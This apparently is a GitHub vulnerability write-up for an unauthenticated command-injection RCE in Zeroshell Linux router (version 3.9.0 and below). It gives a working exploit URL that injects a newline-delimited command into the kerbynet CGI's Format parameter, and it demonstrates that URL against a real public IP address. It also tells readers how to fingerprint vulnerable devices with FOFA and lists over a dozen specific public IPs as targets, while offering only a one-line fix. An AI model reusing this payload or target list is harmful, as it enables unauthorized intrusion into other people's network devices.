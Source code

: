 # Zeroshell Linux router has a RCE vulnerability

## Introduce

Zeroshell official website：https://zeroshell.org/

There is a RCE vulnerability in Zeroshell Linux router.

Hackers can directly cause code execution vulnerabilities without logging in.

- This vulnerability affects zeroshell linux router version 3.9.0 and below.

## Vulnerability Example

Demonstration website: https://190.85.126.182:8081/


Under normal circumstances, you need to enter a password to login

![](https://github.com/HyCXSS/zeroshellrcecve/blob/main/img/1.png)


this payload may cause RCE:

https://190.85.126.182:8081/cgi-bin/kerbynet?Action=x509export&Format=der%0Aid%0A&Section=NoAuthREQ&x509cn=&x509type=CRL

A file named x509crl.crl will be downloaded. The file is the result of command execution (such as ID command in the example)

![](https://github.com/HyCXSS/zeroshellrcecve/blob/main/img/2.png)


## How to find vulnerability

You can search for these zeroshell products in fofa(https://fofa.so/)

fingerprint : app="Zeroshell-防火墙"


For Example:

https://95.253.87.129:8443/

https://95.87.203.184/

https://61.177.121.180/

https://185.90.209.1/

https://210.5.178.186:444/

https://80.116.165.240/

https://2.234.55.16:444/

https://138.41.26.66/

https://212.210.207.26:446/

https://190.85.126.182:8081/

https://62.147.209.59/

https://77.242.140.194:4443/

https://77.242.140.194:4443/


## Repair suggestions

Add permission verification to some parameters to prevent command execution
